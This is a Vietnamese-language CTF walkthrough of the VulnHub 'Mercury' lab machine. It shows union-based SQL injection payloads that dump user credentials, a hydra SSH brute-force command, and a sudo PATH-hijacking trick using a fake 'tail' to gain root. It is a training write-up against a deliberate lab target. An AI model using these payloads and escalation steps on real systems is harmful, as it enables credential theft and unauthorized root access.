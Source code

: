 ```yaml
---
title: "The Planets: Mercury Writeup - VulnHub"
categories:
  - CTF Writeup
  - VulnHub
tags:
  - hacking
  - The Planets
render_with_liquid: false
date: "2023-07-22 20:25:45"
---
```


Download [THE PLANETS: MERCURY](https://www.vulnhub.com/entry/the-planets-mercury,544/){:target="\_blank"}

**Level**: Easy

## Scanning

<br>
Sử dụng **arp-scan** để xác định ip máy chủ mục tiêu

![scan ip](/posts/mercury-walkthrough/scan-ip.png)

Sau khi xác định được ip, tiến hành scan các port dịch vụ. Thử scan các known port trước cho đỡ tốn thời gian

![scan port](/posts/mercury-walkthrough/scan-port.png)

Thấy được 2 services đang hoạt động, ssh port 22 và web server port 8080. Thử truy cập webpage `http://10.0.2.4:8080`
xem khám phá được gì không

![run website](/posts/mercury-walkthrough/website.PNG)

Response trả về là 1 thông báo rằng site đang trong quá trình phát triển, ta có thể đoán có 1 hoặc 1 số ứng dụng web đang chạy trên máy mục tiêu. Tiến hành enumerate files phổ biến, có thể sử dụng tools `dirb`, `dirsearch`, `gobuster`, ...

![enumerate files](/posts/mercury-walkthrough/enumerate-files.PNG)

Truy cập `/robots.txt` cũng không có manh mối gì. Nhưng may mắn thay, trong khi mình thử random 1 số file thì nó hiển thị ra 1 số errors do dev quên không tắt tính năng debug :))

![enumerate files](/posts/mercury-walkthrough/clue.PNG)

Phát hiện được có tồn tại một folder `mercuryfacts/`. Truy cập nó và xem nó có gì

![mercuryfacts](/posts/mercury-walkthrough/mercuryfacts.PNG)

![load a fact](/posts/mercury-walkthrough/load-a-fact.PNG)

Ở đây có xuất hiện 2 link, Truy cập <u>Load a fact</u> thì trang này có chứa dữ liệu trả về theo id từ url, khả năng gọi từ database nên mình test thử sql injection bằng cách chèn nháy đơn:

![sql error](/posts/mercury-walkthrough/sql-error.PNG)

Không còn nghi ngờ gì nữa, site này dính SQLi và trang debug hiển thị lỗi sql, cho thấy rằng payload của ta được chấp nhận để truy vấn vào database. Hơn thế nữa, dựa vào syntax error xác định được Union-based SQLi. Mở Burp và tiến hành khai thác.
<br>

## Exploitation

Thử câu truy vấn "thần thánh" `or 1=1` để bắt đầu khai thác:

```plaintext
/mercuryfacts/1 or 1=1
```

![exploit](/posts/mercury-walkthrough/exploit-1.PNG)

Đúng như mong đợi, kết quả là đã dump được tất cả các row trong sự kiện này (À, trước khi gửi request thì url-encode đã nhé!)
<br>

Tiếp tục với câu lệnh UNION, tiến hành exploit tên database

```
/mercuryfacts/1 union select database()
```

![exploit](/posts/mercury-walkthrough/exploit-3.PNG)

Tìm tên các bảng từ database đã tìm được, tham chiếu từ `information_schema`.

```
/mercuryfacts/1 union select group_concat(table_name) from information_schema.tables where table_schema='mercury'/
```

![exploit](/posts/mercury-walkthrough/exploit-4.PNG)

Có 2 bảng được trích xuất, nhưng chỉ cần quan tâm đến bảng `users`.

```
/mercuryfacts/1 union select group_concat(column_name) from information_schema.columns where table_schema='mercury' and table_name='users'/
```

![exploit](/posts/mercury-walkthrough/exploit-5.PNG)

Lần lượt dump username và password.

```
/mercuryfacts/1 union select group_concat(username) from users/
```

![exploit](/posts/mercury-walkthrough/exploit-6.PNG)

```
/mercuryfacts/1 union select group_concat(password) from users/
```

![exploit](/posts/mercury-walkthrough/exploit-7.PNG)

Nhớ ra rằng ssh đang chạy cổng 22. Quá là lười thử từng username và password nên mình sẽ lựa chọn `hydra` để tổ hợp từng username password và login vô ssh.

```shell
hydra -L username.txt -P password.txt ssh://10.0.2.4 -V
```

![exploit](/posts/mercury-walkthrough/exploit-8.PNG)

Kết quả có 2 combination (nhưng là vì lab này đã được custom lại nên có thêm user `cmcleuleu`, còn bản gốc thì user_flag nằm ngay trong user `webmaster`). Tiến hành login user `cmcleuleu` và get user flag.

![user flag](/posts/mercury-walkthrough/user_flag.PNG)

Switch user qua `webmaster` và thực hiện Privilege Escalation.

## Privilege Escalation

Khám phá một lúc thì phát hiện được có 1 secret notes nằm trong thư mục dự án

![secret notes](/posts/mercury-walkthrough/secret_notes.PNG)

Decode base64 ta nhận được password của `linuxmaster`, su `linuxmaster` và tìm kiếm root flag

![linuxmaster user](/posts/mercury-walkthrough/linuxmaster.PNG)

Kiểm tra đặc quyền của _linuxmaster_ thông qua `sudo -l`

![linuxmaster privilege](/posts/mercury-walkthrough/linuxmaster-privilege.PNG)

Có thể thấy, user có thể thực thi script `/usr/bin/check_syslog.sh` với quyền _root_ và lại được set preserved environment. Kiểm tra xem file `check_syslog.sh` có gì:

![check_syslog.sh](/posts/mercury-walkthrough/check_syslog.PNG)

User không có quyền ghi file `check_syslog.sh` nhưng có thể thực thi nó, hơn thế nữa trong shell script có chứa lệnh `tail` được gọi. Ý tưởng là ghi đè lệnh tail để gọi shell cùng với đó là chạy dưới quyền root.

```shell
linuxmaster@cmclabs1:~$ echo "/bin/bash" > tail
linuxmaster@cmclabs1:~$ chmod 777 tail
linuxmaster@cmclabs1:~$ export PATH=$(pwd):$PATH
```

Cuối cùng, thực thi script `check_syslog.sh` dưới chế độ _preserved environment_ cho PATH:

```shell
sudo --preserve-env=PATH /usr/bin/check_syslog.sh
```

bÙm...

```shell
root@cmclabs1:/home/linuxmaster# cd /root
root@cmclabs1:~# ls
root_flag.txt
root@cmclabs1:~# cat *
@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@
@@@@@@@@@@@@@@@@@@@/##////////@@@@@@@@@@@@@@@@@@@@
@@@@@@@@@@@@@@(((/(*(/((((((////////&@@@@@@@@@@@@@
@@@@@@@@@@@((#(#(###((##//(((/(/(((*((//@@@@@@@@@@
@@@@@@@@/#(((#((((((/(/,*/(((///////(/*/*/#@@@@@@@
@@@@@@*((####((///*//(///*(/*//((/(((//**/((&@@@@@
@@@@@/(/(((##/*((//(#(////(((((/(///(((((///(*@@@@
@@@@/(//((((#(((((*///*/(/(/(((/((////(/*/*(///@@@
@@@//**/(/(#(#(##((/(((((/(**//////////((//((*/#@@
@@@(//(/((((((#((((#*/((///((///((//////(/(/(*(/@@
@@@((//((((/((((#(/(/((/(/(((((#((((((/(/((/////@@
@@@(((/(((/##((#((/*///((/((/((##((/(/(/((((((/*@@
@@@(((/(##/#(((##((/((((((/(##(/##(#((/((((#((*%@@
@@@@(///(#(((((#(#(((((#(//((#((###((/(((((/(//@@@
@@@@@(/*/(##(/(###(((#((((/((####/((((///((((/@@@@
@@@@@@%//((((#############((((/((/(/(*/(((((@@@@@@
@@@@@@@@%#(((############(##((#((*//(/(*//@@@@@@@@
@@@@@@@@@@@/(#(####(###/((((((#(///((//(@@@@@@@@@@
@@@@@@@@@@@@@@@(((###((#(#(((/((///*@@@@@@@@@@@@@@
@@@@@@@@@@@@@@@@@@@@@@@%#(#%@@@@@@@@@@@@@@@@@@@@@@
@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@

Congratulations!!!
If you have any feedback please contact me at autosys@cmcinfosec.com
[root_cmcsoc_flag_1a7e3807f7122beb1527b54d6b46aad3]
```
